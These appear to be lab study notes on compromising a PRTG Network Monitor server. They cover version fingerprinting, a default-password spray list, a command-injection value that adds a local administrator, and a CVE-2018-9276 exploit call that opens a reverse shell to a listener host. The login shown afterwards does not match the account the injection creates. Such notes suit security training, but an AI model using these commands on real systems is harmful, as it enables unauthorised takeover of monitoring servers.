 ### Footprinting + Enumeration
nmap output
```bash
8080/tcp  open  http          Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
```

```shell
curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version
```
### Exploitation
#### Password Spraying
`prtgadmin:prtgadmin` is often left unchanged
```bash
prtgadmin
Password123
admin
root
prtgadmin!
```

#### RCE via
This excellent [blog post](https://www.codewatch.org/blog/?p=453) by the individual who discovered this flaw does a great job of walking through the initial discovery process and how they discovered it

`Setup` -> `Account Settings` -> `Notifications` -> `Add new notification`

![](https://academy.hackthebox.com/storage/modules/113/prtg_add.png)

Give the notification a name and scroll down and tick the box next to `EXECUTE PROGRAM`. Under `Program File`, select `Demo exe notification - outfile.ps1` from the drop-down. Finally, in the parameter field, enter a command. For our purposes, we will add a new local admin user by entering `test.txt;net user adot Pwned123! /add;net localgroup administrators adot /add`. During an actual assessment, we may want to do something that does not change the system, such as getting a reverse shell or connection to our favorite C2. Finally, click the `Save` button.

![image](https://academy.hackthebox.com/storage/modules/113/prtg_execute.png)

After clicking `Save`, we will be redirected to the `Notifications` page and see our new notification named `pwn` in the list.

![](https://academy.hackthebox.com/storage/modules/113/prtg_pwn.png)

All that is left is to click the `Test` button to run our notification and execute the command to add a local admin user. After clicking `Test` we will get a pop-up that says `EXE notification is queued up`

```bash
netexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG! 
```
#### Known Vulnerabilities
##### [CVE-2018-9276](https://github.com/wildkindcc/CVE-2018-9276)
PRTG version `17.3.33.2830` is likely vulnerable to [CVE-2018-9276](https://github.com/wildkindcc/CVE-2018-9276) which is an authenticated command injection in the PRTG System Administrator web console

```bash
python3 CVE-2018-9276.py -i 172.16.1.15 -p 8080 --lhost 172.16.1.45 --lport 4443 --user prtgadmin --password prtgadmin 
```
